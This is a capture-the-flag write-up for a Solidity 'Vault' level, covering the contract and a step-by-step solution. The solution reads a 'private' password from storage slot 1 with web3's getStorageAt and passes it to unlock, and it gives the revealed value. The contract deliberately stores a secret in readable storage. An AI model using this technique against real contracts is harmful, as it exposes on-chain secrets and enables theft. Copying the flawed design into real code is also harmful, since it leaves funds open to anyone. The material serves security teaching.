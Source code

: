 # Challenge 8

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

Challenge
---
> Unlock the vault to pass the level!

Solution 
---
1. `private` - According to Solidity Docs

> Private functions and state variables are only visible for the contract they are defined in and not in derived contracts.

You can read Every State on the blockchain even if it means private vars. 

Solution 
---
1. In this Challenge we see function unlock to unlock the vault.

First We need is Password Remember You can Read Everything on blockchain So, first we see when contract deployed that time password has been set but how do we access? Storage Slot `bool` is `1 byte` and in slot `0` and `password` in slot `1` Storage slot takes 32 bytes space in one slot.

2. Now we will access storage slot with web3js lib open the terminal 
```js
await web3.eth.getStorageAt("0xF642844b3365Af2324C33d88f27eE2Be8bE66BF6",1) // first params contract address, second slot value
```

You Will get This `0x412076657279207374726f6e67207365637265742070617373776f7264203a29`

after that copy this 
```js
await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```

you will unlock the vault, for that
```js
await contract.locked()
```
it will become false, now submit the instance your challenge will be cleared.